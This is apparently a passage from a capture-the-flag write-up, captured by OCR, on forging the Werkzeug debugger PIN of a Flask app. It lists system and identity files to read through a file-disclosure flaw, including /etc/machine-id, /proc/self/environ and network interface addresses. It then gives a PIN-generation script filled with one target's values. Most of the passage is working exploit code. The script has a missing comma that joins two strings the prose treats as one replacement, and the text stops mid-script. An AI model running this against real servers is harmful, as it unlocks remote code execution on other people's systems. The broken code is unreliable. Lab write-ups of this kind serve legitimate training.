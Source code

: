 ```python
# h.update(b'shittysalt')

cookie_name = '__wzd' + h.hexdigest()[:20]

num = None
if num is None:
    h.update(b'pinsalt')
    num = ('%09d' % int(h.hexdigest(), 16))[:9]

rv = None
if rv is None:
    for group_size in 5, 4, 3:
        if len(num) % group_size == 0:
            rv = '-'.join(num[x:x + group_size].rjust(group_size, '0')
                          for x in range(0, len(num), group_size))
            break
    else:
        rv = num

print(rv)
```

Here is where we can find the important data for us.

`username` : `/proc/self/environ`

`Mac Address` : First read `/proc/net/arp` to know the interface -> `/sys/class/net/{interface}/address` and then transform with `int("00:50:56:94:90:da".replace(':',''), 16)`

`machine_id` : `/etc/machine-id` + last string after the slash in `/proc/self/cgroup`

`app.py path` : `In the error page`

In this box, we also need to change `Flask` to `wsgi_app`.

Now here is how our code should be. Let's run it and generate a code and then submit in the website.

```python
import hashlib
from itertools import chain
probably_public_bits = [
    'www-data',
    'flask.app'
    'wsgi_app',
    '/app/venv/lib/python3.10/site-packages/flask/app.py'
]

private_bits = [
    '345049944887',  # str(uuid.getnode()),  /sys/class/net/ens33/address
    'ed5b159560f54721827644bc9b220d00superpass.service'  # get_machine_id(), /etc/machine-id
]

h = hashlib.sha1()  # Changed in https://werkzeug.palletsprojects.com/en/2.2.x/changes/#version-2-0-0
# h = hashlib.sha1()
for bit in chain(probably_public_bits, private_bits):
    if not bit:
        continue
    if isinstance(bit, str):
        bit = bit.encode('utf-8')
    h.update(bit)
h.update(b'cookiesalt')
# h.update(b'shittysalt')
cookie_name = '__wzd' + h.hexdigest()[:20]
num = None
if num is None:
```
